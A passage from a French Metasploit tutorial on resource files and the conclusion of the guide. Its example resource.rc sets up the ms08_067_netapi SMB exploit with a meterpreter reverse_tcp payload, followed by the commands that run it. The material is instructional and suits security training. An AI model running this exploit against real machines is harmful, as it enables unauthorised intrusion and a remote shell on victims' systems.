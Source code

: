 ### 6. Les Fichiers Ressources

Les fichiers ressources permettent d'automatiser l'exécution de commandes séquentielles dans Metasploit.

#### Exemple d'Utilisation

```sh
root@kali:~/Desktop# cat resource.rc  
use exploit/windows/smb/ms08_067_netapi  
set RHOST (IP)  
set PAYLOAD windows/meterpreter/reverse_tcp  
set LHOST (IP)
```

Pour exécuter les commandes du fichier ressource :

```sh
msf6 > resource resource.rc
ou
root@kali:~/Desktop# msfconsole -r resource.rc
```

### Conclusion

La connaissance des différentes interfaces et de l'organisation du système de fichiers de Metasploit est essentielle pour une utilisation efficace du framework. Ces outils vous permettent de naviguer, d'exécuter des exploits, de gérer des sessions et d'automatiser des tâches avec facilité.
